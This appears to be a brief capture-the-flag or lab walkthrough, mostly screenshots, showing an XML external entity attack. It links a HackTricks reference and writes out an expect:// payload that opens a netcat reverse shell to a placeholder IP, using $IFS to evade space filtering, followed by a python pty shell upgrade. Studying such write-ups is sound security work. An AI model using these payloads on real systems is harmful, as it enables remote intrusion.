 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/076d9062-4f17-426b-a613-fc5271b4e2f9)

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/80a4b9b8-da5f-4806-ae03-135afa50cc43)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2218528f-84d9-4cca-a64b-02d50816efe8)

`expect://nc.traditional$IFS-e$IFS/bin/bash$IFS'IP'$IFS'1234'"`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/18947995-d2e0-444e-ab48-5c4769458ebc)

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/327254c2-67c2-43b2-9032-082f96227a9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd0e4092-8b60-4b4e-8ecf-3c48f7de4fef)





